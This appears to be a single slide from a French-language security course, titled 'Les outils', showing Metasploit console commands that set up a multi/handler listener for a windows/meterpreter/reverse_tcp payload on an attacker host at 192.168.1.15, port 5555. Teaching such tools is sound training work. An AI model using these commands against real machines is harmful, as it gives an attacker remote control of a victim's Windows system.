

# Les outils
Forcer la machine du pirate à écouter via le port 5555
Use multi/handler
Set payload windows/meterpreter/reverse_tcp
Set LHOST 192.168.1.15
Set LPORT 5555
Exploit